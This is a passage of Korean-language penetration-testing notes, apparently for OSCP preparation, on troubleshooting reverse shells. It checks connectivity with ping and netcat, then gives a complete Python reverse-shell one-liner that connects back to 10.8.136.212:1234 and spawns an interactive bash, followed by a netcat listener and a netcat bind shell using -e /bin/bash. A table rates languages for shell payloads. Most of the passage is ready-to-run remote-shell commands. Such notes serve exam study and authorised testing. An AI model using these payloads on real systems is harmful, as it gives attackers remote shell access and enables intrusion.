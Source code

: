 ### 1️⃣ 기본 연결성 확인

```bash
# 핑 테스트
ping -c 2 10.8.136.212

# 포트 연결 테스트
nc -zv 10.8.136.212 1234
```

### 2️⃣ 다른 포트로 테스트

```bash
# 공격자 머신에서 다른 포트 사용
nc -lvnp 8080

# 타겟에서 연결
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.8.136.212",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

### 3️⃣ 바인드 쉘로 방향 변경

```bash
# 타겟에서 바인드 쉘 실행
nc -lvnp 1234 -e /bin/bash

# 공격자에서 연결
nc 타겟IP 1234
```

---

## 📋 언어별 장단점 비교

| 언어       | 장점                    | 단점               | OSCP 추천도 |
| ---------- | ----------------------- | ------------------ | ----------- |
| **Python** | 거의 모든 시스템에 존재 | 없음               | ⭐⭐⭐⭐⭐  |
| **Bash**   | 기본 쉘, 빠름           | /dev/tcp 지원 필요 | ⭐⭐⭐⭐⭐  |
| **Netcat** | 간단, 직관적            | 버전별 차이        | ⭐⭐⭐⭐    |
| **Perl**   | 강력한 기능             | 복잡한 문법        | ⭐⭐⭐      |
| **PHP**    | 웹 환경에서 유용        | PHP 설치 필요      | ⭐⭐⭐      |
| **Ruby**   | 간결한 코드             | Ruby 설치 필요     | ⭐⭐        |

---
